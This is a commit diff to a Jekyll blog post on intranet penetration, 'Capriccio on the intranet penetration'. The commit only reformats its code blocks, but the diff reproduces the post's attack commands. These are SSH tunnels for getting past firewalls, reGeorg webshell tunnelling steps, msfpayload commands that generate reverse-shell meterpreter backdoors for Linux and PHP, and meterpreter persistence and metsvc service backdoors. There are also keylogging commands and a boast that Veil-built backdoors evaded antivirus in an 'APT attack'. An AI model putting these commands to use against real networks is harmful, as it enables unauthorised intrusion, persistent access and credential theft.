

Before and after one commit to woolabs/woolabs.github.io, a Jekyll site: the page built from _posts/2015-06-04-capriccio-on-the-intranet-penetration.markdown, in a window 1280 px wide and 1400 px high, scrolled down 1329 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Post update: Capriccio on the intranet penetration

````diff
--- a/_posts/2015-06-04-capriccio-on-the-intranet-penetration.markdown
+++ b/_posts/2015-06-04-capriccio-on-the-intranet-penetration.markdown
@@ -26,9 +27,7 @@ Under this method, Lhost typically would send a request targeting at the Rhost t
 
 ## 1.2 the reverse proxy (reverse proxy)
 
-```
-Lhost<--->proxy<--->firewall<--->Rhost
-```
+    Lhost<--->proxy<--->firewall<--->Rhost
 
 
 
@@ -46,17 +45,25 @@ Many Zone users have asked a question [on using proxy to penetrate the intranet]
 
 This method requires a high(system/root) privilege using system functions to directly open the tunnel responsible for the intranet proxy. Other than that, it's simple to configure a VPN, so i won't detail much about this here. But we should focus more when using a SSH tunnel for proxy.
 
-```
--L port:host:user remote_ip # a forward tunnel to listen to local ports:host:user remote_ip #a reverse tunnel to penetrate the intranet and break firewall limits         SSH -qTfnN -D port remotehost #directly for socks proxy                                    details of parameters :   -q Quiet mode. Quiet mode-T Disable pseudo-tty allocation. Without shell-f Requests SSH to go to background just before command execution. Running in the background, and together with the-n parameter-N Do not execute a remote command. Does not execute a remote command, using it to forward a port ~
-```
+    #!bash
+    ssh -qTfnN -L port:host:hostport -l user remote_ip   #a forward tunnel to listen to local ports
+    ssh -qTfnN -R port:host:hostport -l user remote_ip   #a reverse tunnel to penetrate the intranet and break firewall limits
+    SSH -qTfnN -D port remotehost   #directly for socks proxy
+
+    details of parameters
+    -q Quiet mode.  #Quiet mode.
+    -T Disable pseudo-tty allocation. # Without shell
+    -f Requests ssh to go to background just before command execution. #Running in the background, and together with the-n parameter
+    -N Do not execute a remote command. #Do not execute a remote command. Does not execute a remote command, using it to forward a port ~
 
 
 
 Sometimes as we have no appropriate tools to forward a port, it is possible to leverage SSH for port forwarding.
 
-```
--L port1:127.0.0.1:port2 port2:127.0.0.1:port1 user@host # user@host # local forwarding-r remote forwarding
-```
+    #!bash
+    ssh -CfNg -L port1:127.0.0.1:port2 user@host    # local forwarding
+    ssh -CfNg -R port2:127.0.0.1:port1 user@host    # remote forwarding
+
 
 This excellent paper [SSH Port Forwarding](http://staff.washington.edu/corey/fw/ssh-port-forwarding.html) could be of great help.
 
@@ -64,13 +71,15 @@ This excellent paper [SSH Port Forwarding](http://staff.washington.edu/corey/fw/
 
 You just simply need to upload a Webshell on the target server, then forward all of the traffic to the intranet through the shell. Some popular tools include reGeorg,meterpreter,tunna and so on. Or even you can write a simple proxy script, and configure the nginx on your machine to conduct reverse proxy.
 
-* The instuction coming with [ReGeorg](https://github.com/sensepost/reGeorg)is clear enough:
-    * Step 1. Upload tunnel.(aspx|ashx|jsp|php) to a webserver (How you do that is up to you)
-    * Step 2. Configure you tools to use a socks proxy, use the ip address and port you specified when you started the reGeorgSocksProxy.py
+The instuction coming with [ReGeorg](https://github.com/sensepost/reGeorg)is clear enough:
 
-** Note, if your tools, such as NMap doesn't support socks proxies, use [proxychains] (see wiki)
+* Step 1. Upload tunnel.(aspx|ashx|jsp|php) to a webserver (How you do that is up to you)
 
-    * Step 3. Hack the planet :)
+* Step 2. Configure you tools to use a socks proxy, use the ip address and port you specified when you started the reGeorgSocksProxy.py
+
+Note, if your tools, such as NMap doesn't support socks proxies, use [proxychains] (see wiki)
+
+* Step 3. Hack the planet :)
 
 Note: install urllib3.(i mainly use regeorg, it's really convenient.)
 
@@ -86,15 +95,15 @@ msfpayload windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your P
 
 ## 3.2 Linux backdoor
 
-```
-msfpayload linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R | msfencode -t elf -o shell
-```
+
+    msfpayload linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R | msfencode -t elf -o shell
+
 
 ## 3.3 PHP backdoor
 
-```
-msfpayload php/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R | msfencode -e php/base64(can be simple codes) -t raw -o base64php.php
-```
+
+    msfpayload php/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R | msfencode -e php/base64(can be simple codes) -t raw -o base64php.php
+
 
 MSF can do whatever things after the meterpreter session is captured. One of the most popular ways is to scan the target by using the attack module provided in msf (note: it can be a cross-network scan) after the routing table is added.
 
@@ -103,9 +112,9 @@ If you just want to perform a simple proxy work, auxiliary/server/socks4a module
 
 I'd like to add one thing about msf here. If you find it troublesome to memorize all that commands used in the SSH tunnel, you can also use msf to build the tunnel.
 
-```
-Load meta_ssh use multi/SSH/login_password exploit to get a session for proxy operations after the parameter is set
-```
+
+    Load meta_ssh use multi/SSH/login_password exploit to get a session for proxy operations after the parameter is set
+
 
 * Directly conduct reverse proxy through WebShell and nginx
 
@@ -206,15 +215,15 @@ There are two kinds of sustainable msf backdoor:one starts through the service,
 
 The one starts through the service has a shortage of showing its service name as meterpreter and it is used by : uploading the back door and leveraging metsvc to install the service
 
-```
-meterpreter > run metsvc ... (Set port, and upload back files) use Exploit/multi/handler set PAYLOAD Windows/metsvc_bind_tcp exploit
-```
+
+    meterpreter > run metsvc ... (Set port, and upload back files) use Exploit/multi/handler set PAYLOAD Windows/metsvc_bind_tcp exploit
+
 
 the other one can be used by :
 
-```
-meterpreter > run persistence -X -i 10 -p port -r hostip use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp exploit
-```
+
+    meterpreter > run persistence -X -i 10 -p port -r hostip use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp exploit
+
 
 Of course, directly generated backdoor may be killed, so I recommend a great tool here,[veil](https://github.com/ChrisTruncer/Veil). I have used this tool to generate the backdoor in a small APT attack and the backdoor successfully bypassed the 360AV.
 
@@ -232,9 +241,9 @@ I frequently use [Ixkeylog](https://github.com/dorneanu/ixkeylog/), compatible w
 
 Or you can use the key log function that comes with meterpreter session
 
-```
-keyscan_start keyscan_dump
-```
+
+    keyscan_start keyscan_dump
+
 
 [Image: https://quip.com/-/blob/YCIAAADtDa5/cRaYG1_jRlb3Y2Cs2Nn0Gw][Image: https://quip.com/-/blob/YCIAAADtDa5/PlSN9q1rPVvx8W0ZxbKwEQ]
 The benefit of Meterpreter is that meyerpreter can be injected in the memory in Windows without creating any process.
````
Also changed, not shown: other parts of _posts/2015-06-04-capriccio-on-the-intranet-penetration.markdown (+3 -2 lines).
